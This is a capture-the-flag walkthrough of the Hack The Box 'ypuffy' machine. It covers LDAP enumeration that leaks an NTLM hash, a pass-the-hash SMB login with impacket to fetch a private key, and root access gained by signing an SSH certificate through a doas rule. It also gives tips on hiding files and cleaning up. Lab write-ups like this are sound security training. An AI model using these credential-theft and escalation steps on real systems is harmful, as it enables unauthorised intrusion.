







# Hackthebox ypuffy Writeup / Walkthrough

This box intrigued me because the OS was listed as other, and I was looking for a challenge.  We will start by enumerating the box as usual:

## Enumeration
```bash
# -sC: Run default NSE scripts
# -sV: Try to gather information on services running on the box
# -Pn: Do not ping the box before trying to scan it
# 10.10.10.107 is our target

root@kali:~/ctf/hackthebox/ypuffy# nmap -sC -sV -Pn 10.10.10.107
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-23 15:02 EDT
Nmap scan report for 10.10.10.107
Host is up (0.036s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2e:19:e6:af:1b:a7:b0:e8:07:2a:2b:11:5d:7b:c6:04 (RSA)
|   256 dd:0f:6a:2a:53:ee:19:50:d9:e5:e7:81:04:8d:91:b6 (ECDSA)
|_  256 21:9e:db:bd:e1:78:4d:72:b0:ea:b4:97:fb:7f:af:91 (ED25519)
80/tcp  open  http        OpenBSD httpd
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YPUFFY)
389/tcp open  ldap        (Anonymous bind OK)
445/tcp open  netbios-ssn Samba smbd 4.7.6 (workgroup: YPUFFY)
Service Info: Host: YPUFFY

Host script results:
|_clock-skew: mean: 1h18m25s, deviation: 2h18m34s, median: -1m35s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6)
|   Computer name: ypuffy
|   NetBIOS computer name: YPUFFY\x00
|   Domain name: hackthebox.htb
|   FQDN: ypuffy.hackthebox.htb
|_  System time: 2018-09-23T15:01:20-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2018-09-23 15:01:20
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.54 seconds
```

LDAP and SMB are interesting services running on this box.  We will start with the HTTP service because that is a common attack vector:



Looks like that might not be a viable way in this time.  That is okay.  I wanted to try messing with LDAP and SMB anyway.

There are a number of tools that we can use to enumerate LDAP.  One is ```ldapsearch```.  We can also use nmap with the ldap-search<sup>[1]</sup> NSE script.  We will use ```ldapsearch``` later if we really have to dig into things, but to general feel for things, I will start off by using the ldap-search NSE script.  We do not have to provide any script arguments because we are not looking for anything specific yet.

```bash
root@kali:~/ctf/hackthebox/ypuffy# nmap -p 389 --script ldap-search 10.10.10.107
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-23 15:09 EDT
Nmap scan report for 10.10.10.107
Host is up (0.036s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search: 
|   Context: dc=hackthebox,dc=htb
|     dn: dc=hackthebox,dc=htb
|         dc: hackthebox
|         objectClass: top
|         objectClass: domain
|     dn: ou=passwd,dc=hackthebox,dc=htb
|         ou: passwd
|         objectClass: top
|         objectClass: organizationalUnit
|     dn: uid=bob8791,ou=passwd,dc=hackthebox,dc=htb
|         uid: bob8791
|         cn: Bob
|         objectClass: account
|         objectClass: posixAccount
|         objectClass: top
|         userPassword: {BSDAUTH}bob8791
|         uidNumber: 5001
|         gidNumber: 5001
|         gecos: Bob
|         homeDirectory: /home/bob8791
|         loginShell: /bin/ksh
|     dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb
|         uid: alice1978
|         cn: Alice
|         objectClass: account
|         objectClass: posixAccount
|         objectClass: top
|         objectClass: sambaSamAccount
|         userPassword: {BSDAUTH}alice1978
|         uidNumber: 5000
|         gidNumber: 5000
|         gecos: Alice
|         homeDirectory: /home/alice1978
|         loginShell: /bin/ksh
|         sambaSID: S-1-5-21-3933741069-3307154301-3557023464-1001
|         displayName: Alice
|         sambaAcctFlags: [U          ]
|         sambaPasswordHistory: 00000000000000000000000000000000000000000000000000000000
|         sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
|         sambaPwdLastSet: 1532916644
|     dn: ou=group,dc=hackthebox,dc=htb
|         ou: group
|         objectClass: top
|         objectClass: organizationalUnit
|     dn: cn=bob8791,ou=group,dc=hackthebox,dc=htb
|         objectClass: posixGroup
|         objectClass: top
|         cn: bob8791
|         userPassword: {crypt}*
|         gidNumber: 5001
|     dn: cn=alice1978,ou=group,dc=hackthebox,dc=htb
|         objectClass: posixGroup
|         objectClass: top
|         cn: alice1978
|         userPassword: {crypt}*
|         gidNumber: 5000
|     dn: sambadomainname=ypuffy,dc=hackthebox,dc=htb
|         sambaDomainName: YPUFFY
|         sambaSID: S-1-5-21-3933741069-3307154301-3557023464
|         sambaAlgorithmicRidBase: 1000
|         objectclass: sambaDomain
|         sambaNextUserRid: 1000
|         sambaMinPwdLength: 5
|         sambaPwdHistoryLength: 0
|         sambaLogonToChgPwd: 0
|         sambaMaxPwdAge: -1
|         sambaMinPwdAge: 0
|         sambaLockoutDuration: 30
|         sambaLockoutObservationWindow: 30
|         sambaLockoutThreshold: 0
|         sambaForceLogoff: -1
|         sambaRefuseMachinePwdChange: 0
|_        sambaNextRid: 1001

Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds
```

Looks like we got two user names: alice1978 and bob8791.  We even got an NTLM hash for alice1978.  We know it is not a normal LM hash, because we would see a field named sambaLMPassword.

I tried running this through johntheripper with several wordlists and did not get anywhere.  Instead of waiting forever, I decided to try passing the hash.  Impacket<sup>[2],[3]</sup> includes a tool that allows us to pass the hash to browse samba / SMB shares which samba's ```smbclient``` does not.  It requires a little bit of setup if you do not have it.  I am doing this on Kali, but these instructions should work for any Debian-based Linux distribution.  If you are using another Linux distribution, macOS, or Windows, will be slightly different.  In a nutshell, here is what we are doing:

  1.  Installing virtualenv for Python 2 if you do not already have it.  Impacket is written for Python 2.  virtualenvs allow us to keep Python code seperate from other code on the system.  This is useful if a piece of software requires a specific version of a dependency.
  2.  Grab the source code from impacket's github repo<sup>[3]</sup>.
  3.  Create a virtual environment to live with the source code we just downloaded.
  4.  Activate the virtual environment
  5.  Install impacket and its dependencies in the virtual environment.
  
```bash
# Install virtualenv for Python if you do not have it
# As of this writing, impacket only supports Python 2, so we need the Python2 version of virtualenv
# If you are not using a Debian-based or you are using Windows, this command will be different
apt install python-virtualenv

# Get the impacket source code
git clone https://github.com/CoreSecurity/impacket

# Create the virtual enivornment named impacket.  This will put the Python environment in the source code folder that created by the clone step above.
virtualenv impacket

# Go into the impacket directory
cd impacket

# Activate the virtual environment (use the command deactivate when you are done)
source bin/activate

# Grab the dependencies we need for impacket and install them
pip install .
```

Now that impacket is installed, we will use the smbclient example script to browse any shares and download any interesting files we find:

```bash
# We put a colon in front of the hash because the LM hash is empty.
# If we had an LM hash, the hash we would specify here would be of the format <LM hash>:<NTLM Hash>
# LM hashes would be stored as sambaLMPassword
(impacket) root@kali:/opt/impacket# python examples/smbclient.py -hashes :0B186E661BBDBDCF6047784DE8B9FD8B alice1978@10.10.10.107
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

Type help for list of commands
# lcd /root/ctf/hackthebox/ypuffy
/root/ctf/hackthebox/ypuffy
# shares
alice
IPC$
# use alice
# ls
drw-rw-rw-          0  Mon Jul 30 22:54:20 2018 .
drw-rw-rw-          0  Fri Sep 21 17:18:39 2018 ..
-rw-rw-rw-       1460  Mon Jul 16 21:38:51 2018 my_private_key.ppk
# get my_private_key.ppk
# exit
```

PPK files (PuTTY Private Key) are used by the Windows SSH utility PuTTY.  We cannot directly use them with OpenSSH on Linux.  We can convert PPK files to files we can use with OpenSSH using ```puttygen``` from the ```putty-tools``` package.  ```putty-tools``` is the package name on Debian-based distributions.  If you are using a different flavor of Linux, you will need the package that provides ```puttygen```.  You can use the PuTTY suite on Windows without having to convert the key.

```bash
# -O specifies the output type.  private-openssh is an OpenSSH format key with the private key included
# -o specifies the name of the key to output
puttygen my_private_key.ppk -O private-openssh -o alice_ssh_key
```

Now that we have a key in a format we can use on Linux, let's try logging in as alice1978:
```bash
ssh -i alice_ssh_key alice1978@10.10.10.107
```



Looks like it worked!  The user flag is in alice1978's home directory:



## Root Flag
### Enumeration
When there is nothing obvious for a privilege escalation, I tend to look through the filesystem for sensitive files or configuration files.  We see that bob8791's home directory is somewhat accessible.
```bash
ypuffy$ ls -al /home/bob8791
total 36
drwxr-xr-x  3 bob8791  bob8791  512 Jul 30 20:52 .
drwxr-xr-x  5 root     wheel    512 Jul 30 21:05 ..
-rw-r--r--  1 bob8791  bob8791   87 Mar 24  2018 .Xdefaults
-rw-r--r--  1 bob8791  bob8791  771 Mar 24  2018 .cshrc
-rw-r--r--  1 bob8791  bob8791  101 Mar 24  2018 .cvsrc
-rw-r--r--  1 bob8791  bob8791  359 Mar 24  2018 .login
-rw-r--r--  1 bob8791  bob8791  175 Mar 24  2018 .mailrc
-rw-r--r--  1 bob8791  bob8791  215 Mar 24  2018 .profile
drwxr-xr-x  2 bob8791  bob8791  512 Jul 30 20:53 dba
ypuffy$ ls -al /home/bob8791/dba
total 12
drwxr-xr-x  2 bob8791  bob8791  512 Jul 30 20:53 .
drwxr-xr-x  3 bob8791  bob8791  512 Jul 30 20:52 ..
-rw-r--r--  1 bob8791  bob8791  268 Jul 30 20:58 sshauth.sql
ypuffy$ cat /home/bob8791/dba/sshauth.sql   
CREATE TABLE principals (
        uid text,
        client cidr,
        principal text,
        PRIMARY KEY (uid,client,principal)
);

CREATE TABLE keys (
        uid text,
        key text,
        PRIMARY KEY (uid,key)
);
grant select on principals,keys to appsrv;
```

I am not sure what to do with this right now.  I ran ```ps -aux``` and noticed that postgreSQL was running as well as something running as the appsrv user.  I tried looking at that briefly and did not get very far.  I decided to move on to more enumeration and come back if I got additional clues. Configuration files usually live in /etc, so we will look in there.  One that was particularly interesting was the configuration for ```doas``` (```/etc/doas.conf```).  ```doas``` is similar to ```sudo``` on Linux systems.
```bash
ypuffy$ cat /etc/doas.conf  
permit keepenv :wheel
permit nopass alice1978 as userca cmd /usr/bin/ssh-keygen
```
This tells us that alice1978 can run /usr/bin/ssh-keygen as the user userca.  It is not immediately clear how this could be useful.  Even if we could generate an alternate SSH key for userca, we would have to be able to add it to their ```.ssh/authorized_keys``` file which we cannot do with ```ssh-keygen```.  Perhaps something in the configuration of SSH on this box could give us a clue.  Let's take a look at ```/etc/ssh/sshd_config```.

There are a few interesting lines in the file:

```
PermitRootLogin prohibit-password
...
AuthorizedKeysCommand /usr/local/bin/curl http://127.0.0.1/sshauth?type=keys&username=%u
AuthorizedKeysCommandUser nobody

TrustedUserCAKeys /home/userca/ca.pub
AuthorizedPrincipalsCommand /usr/local/bin/curl http://127.0.0.1/sshauth?type=principals&username=%u
AuthorizedPrincipalsCommandUser nobody
```

I was not too familiar with authorized principals when it comes to OpenSSH, so I decided to read the man page for sshd_config<sup>[4]</sup>.

From man sshd_config:
```
AuthorizedPrincipalsFile
             Specifies a file that lists principal names that are accepted for
             certificate authentication.  When using certificates signed by a
             key listed in TrustedUserCAKeys, this file lists names, one of
             which must appear in the certificate for it to be accepted for
             authentication.  Names are listed one per line preceded by key
             options (as described in AUTHORIZED_KEYS FILE FORMAT in sshd(8)).
             Empty lines and comments starting with `#' are ignored.

             Arguments to AuthorizedPrincipalsFile accept the tokens described
             in the TOKENS section.  After expansion, AuthorizedPrincipalsFile
             is taken to be an absolute path or one relative to the user's
             home directory.  The default is none, i.e. not to use a
             principals file - in this case, the username of the user must
             appear in a certificate's principals list for it to be accepted.

             Note that AuthorizedPrincipalsFile is only used when
             authentication proceeds using a CA listed in TrustedUserCAKeys
             and is not consulted for certification authorities trusted via
             ~/.ssh/authorized_keys, though the principals= key option offers
             a similar facility (see sshd(8) for details).
```

So this means that if we can sign a key using the trusted CA that has a principal name that the user we want to impersonate will accept, we may be able to impersonate any user on the system.  Reading through the man page for ```ssh-keygen```<sup>[5]</sup>, it looks like it can sign certificates and allow us to specify principals.  From the man page:
```
CERTIFICATES
    ssh-keygen supports signing of keys to produce certificates that may be used for user or host authentication. Certificates consist of a public key, some identity information, zero or more principal (user or host) names and a set of options that are signed by a Certification Authority (CA) key. Clients or servers may then trust only the CA key and verify its signature on a certificate rather than trusting many user/host keys. Note that OpenSSH certificates are a different, and much simpler, format to the X.509 certificates used in ssl(8).
    
    ssh-keygen supports two types of certificates: user and host. User certificates authenticate users to servers, whereas host certificates authenticate server hosts to users. To generate a user certificate:
    $ ssh-keygen -s /path/to/ca_key -I key_id /path/to/user_key.pub
```

Here are the relevant options we will need to be able to sign certificates.  These come from the ```ssh-keygen``` man page.
```
-I certificate_identity
    Specify the key identity when signing a public key. Please see the CERTIFICATES section for details.
-n principals
    Specify one or more principals (user or host names) to be included in a certificate when signing a key. Multiple principals may be specified, separated by commas. Please see the CERTIFICATES section for details.
-s ca_key
    Certify (sign) a public key using the specified CA key. Please see the CERTIFICATES section for details.
    When generating a KRL, -s specifies a path to a CA public key file used to revoke certificates directly by key ID or serial number. See the KEY REVOCATION LISTS section for details.
```

With all of this information, we can create a plan for privilege escalation.  We will generate a key that the system will allow us to login as root.  We can use a key to login as root because the SSH config on the server allows root to login without a password (i.e. with a key).

  1.  Generate a key using ssh-keygen.  We will do this as the user we have access to.  If we do it as userca, the resulting key will only be readable by userca which is not useful to us.
  2.  Sign the key we created using userca's private key.  The public key /home/userca/ca.pub is the TrustedUserCAKey according to the SSH server config.  That means the certificate we present must be signed with the corresponding private key.  We have to do this as userca because userca is the only one that can read its private key.
  3.  Use the signed key to login as root (hopefully).

We have almost everything we need to try our plan.  The only thing we need is the list of principals that are accepted for root in order to sign the certificate we will create.  Without these, the key would have to be in root's ```authorized_keys``` file, and we do not have the access to modify that file right now.

Fortunately the SSH config on the server gave us a method for determining what the principals are:
```
AuthorizedPrincipalsCommand /usr/local/bin/curl http://127.0.0.1/sshauth?type=principals&username=%u
```
When a user authneticates via SSH and presents a key, the SSH server runs the specified command to determine which principals are allowed.  Similarly, it runs ```/usr/local/bin/curl http://127.0.0.1/sshauth?type=keys&username=%u``` to determine which keys are allowed for a specific user.  The SSH server substitutes ```%u``` for the username that is trying to login.  There is nothing stopping us from running the same command:

```bash
ypuffy$ curl "http://127.0.0.1/sshauth?type=principals&username=root"   
3m3rgencyB4ckd00r
```

With that, we have everything we need.

### Step 1
```bash
# -t tells ssh-keygen to generate an RSA key.  This is the default, but it does not hurt to specify it
# We will save the resulting key as /tmp/rtkey when it asks.  You can save it as whatever you like.  I chose /tmp because it is usually a good spot to hide files.
# no need for a passphrase when it asks
/usr/bin/ssh-keygen -t rsa
```



### Step 2
Now that we have a key, we need to sign it:
```bash
# We will use doas to run a command as userca (which we need to do to sign the key with userca's private key)
# -u allows us to specify the user we want to run the command as
# /usr/bin/ssh-keygen is the command we want to run, everything that follows are arguments to ssh-keygen
# -n is the principal we want to include in the certificate.  We got this from the AuthorizedPrincipalsCommand above
# -s is the key we will use to sign the certificate.  This corresponds to the public key specified in TrustedUserCAKeys
# -I is an identity name for the signed key.  This can be whatever you want
# The last argument is the key we want to sign.  This is the key we created in step 1.
doas -u userca /usr/bin/ssh-keygen -n 3m3rgencyB4ckd00r -s /home/userca/ca -I rootkey /tmp/rtkey
```



### Step 3
Now all that is left is to try it.  We could copy the key back to our box and try it from there, but it is easier to use the key locally because we do not need the key after we are done.
```bash
ssh -i /tmp/rtkey root@127.0.0.1
```



Lokos like we got root!  The root flag is in root's home directory.



Now, let's clean up:
```bash
# Remove the keys we made
rm /tmp/rtkey*

# Remove 127.0.0.1 from alice1978's known_hosts
vi /home/alice1978/.ssh/known_hosts
```

## References
[1]: https://nmap.org/nsedoc/scripts/ldap-search.html "ldap-search NSE script"
[2]: https://www.coresecurity.com/corelabs-research/open-source-tools/impacket "impacket"
[3]: https://github.com/CoreSecurity/impacket "impacket source code"
[4]: https://man.openbsd.org/sshd_config "OpenBSD man page: sshd_config"
[5]: https://man.openbsd.org/ssh-keygen "OpenBSD man page: ssh-keygen"

  * [<sup>1</sup> ldap-search NSE script](https://nmap.org/nsedoc/scripts/ldap-search.html)
  * [<sup>2</sup> impacket](https://www.coresecurity.com/corelabs-research/open-source-tools/impacket)
  * [<sup>3</sup> impacket source code](https://github.com/CoreSecurity/impacket)
  * [<sup>4</sup> OpenBSD man page: sshd_config](https://man.openbsd.org/sshd_config)
  * [<sup>5</sup> OpenBSD man page: ssh-keygen](https://man.openbsd.org/ssh-keygen)
